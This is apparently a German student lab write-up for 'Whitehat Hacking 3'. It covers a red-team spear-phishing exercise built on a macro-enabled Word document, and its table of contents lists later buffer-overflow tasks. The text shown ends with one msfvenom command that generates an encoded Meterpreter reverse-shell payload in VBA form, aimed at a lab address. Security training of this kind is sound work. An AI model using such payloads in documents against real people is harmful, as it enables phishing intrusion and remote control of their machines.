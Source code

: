 # Whitehat Hacking 3 
- [Aufgabe 1](#aufgabe-1)
	- [Interpretation der Aufgabenstellung](#interpretation-der-aufgabenstellung)
	- [Setup](#setup)
	- [Erste Versuche](#erste-versuche)
	- [Versuch mit Excel](#versuch-mit-excel)
	- [Making it Stealthy](#making-it-stealthy)
- [Aufgabe 1 die Zweite...diesmal mit richtiger Shell](#aufgabe-1-die-zweitediesmal-mit-richtiger-shell)
- [Aufgabe 2](#aufgabe-2)
	- [Interpretation der Aufgabenstellung](#interpretation-der-aufgabenstellung-1)
	- [Vorbereitungen](#vorbereitungen)
	- [Applikation und suchen des Overflows](#applikation-und-suchen-des-overflows)
	- [Disclaimer](#disclaimer)
	- [Exploiting](#exploiting)
- [Aufgabe 4](#aufgabe-4)
	- [Binary Compile](#binary-compile)
	- [Suche nach potentiel ausnutzbaren Vulnerabilities](#suche-nach-potentiel-ausnutzbaren-vulnerabilities)
	- [Untersuchen der Canaries und des BO](#untersuchen-der-canaries-und-des-bo)

## Aufgabe 1 

Als Sie in der Früh ins Büro kommen ersucht Sie Ihre Kollegin Beate gleich ins Besprechungszimmer zu kommen. Dort erfahren Sie, dass die Forensik Abteilung bei Ihrer Untersuchung eines Sicherheitsvorfalls bei einem Ihrer wichtigsten Kunden festgestellt hat, dass die bislang unbekannte APT Gruppe „No Regerts“ offenbar über einen Social Engineering Angriff Zugriff auf das System erhielt. Der Kunde hat daraufhin sofort Ihr Red Team beauftragt die User Awareness und Sicherheit im Hinblick auf Social Engineering Angriffe und die vorhandenen Gegenmaßnahmen zu testen. Das Ziel des Red Teams ist es eine mehrstufige, möglichst ausgeklügelte und überzeugende Spear Phishing Kampagne auf Executive Mitarbeiter zu starten. Das Ziel gilt als erreicht, sobald es dem Team gelingt eine Bind Shell auf einem full patched Windows 10 Rechner mit eingeschaltetem AMSI zu starten und sich damit zu verbinden. 

### Interpretation der Aufgabenstellung  

Erstellen eines Office Dokuments mit eingebetteten Macro, welches einen Tunnel zum System des "Hackers" aufbaut. Das Dokument muss eine "glaubhafte" Geschichte erzaehlen.

### Setup

Es werden eine Kali 20.04 VM und eine Windows 10 x32 basierend auf einer KVM Umgebung verwendet.


### Erste Versuche

Der erste Versuch war die Erstellung eines Word Dokuments vom Typ "docm", welches Makros beinhalten kann. Diesem wird eine mit dem Venom Plugin des Metasploit-Frameworks erstellt. Folgende Befehle wurden im ersten Versuch benutzt:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.122.224 LPORT=1337 -e x86/shikata_ga_nai -f vba-psh > macro.txt
